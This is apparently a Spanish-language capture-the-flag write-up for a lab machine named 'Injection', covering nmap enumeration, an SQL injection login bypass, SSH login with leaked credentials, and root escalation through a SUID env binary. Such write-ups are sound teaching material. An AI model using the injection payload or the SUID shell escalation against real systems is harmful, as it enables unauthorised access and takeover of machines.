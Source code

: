 # Injection

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Como tenemos abierto los puerto 22 y 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p22,80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos 22 (SSH) y 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ9UrfkzVjvriOVFwT9rOHz6XGJrVwKK/A6RMody6c0ovLNeCgaU6kCb+dGPPeXwCaio++IwxYm0SxRGYITrhr4=
|   256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJV4CYnqtqSQxWkpfq7xR8DG/nHJfLXDhtkyMHA5pLhO
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Explotación.
Vamos directamente a la enumerar el puerto 80 desde el navegador y vemos que hay un formulario de login. Probamos una inyección sql.
```bash
User: admin' OR 1 = 1 -- -
Password: hola
```
Y direcctamente nos lleva a una página con un mensaje que contiene el usuario y contraseña.

```bash
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```
Teniendo el puerto 22 (SSH) abierto probamos el usuario y contraseña que nos han proporcionado y entramos a la máquina.
```bash
❯ ssh dylan@172.17.0.2
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.5.0-kali3-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu May 16 16:44:37 2024 from 172.17.0.1
dylan@b5df33a8267a:~$ 
```
## Excalada de privilegios.
Lo primero es buscar binarios con permisos SUID para hacer la escalada.
```bash
find / -perm -4000 2>/dev/null
```
```bash
dylan@b5df33a8267a:~$ find / -perm -4000 2>/dev/null
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/umount
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
Si vamos a [GTOFBins](https://gtfobins.github.io/gtfobins/env/), vemos que con el binario **/usr/bin/env** podemos ejecutar una bash con privilegios de root.
```bash
/usr/bin/env /bin/sh -p
```
```bash
dylan@b5df33a8267a:~$ /usr/bin/env /bin/sh -p
# whoami
root
# 
```
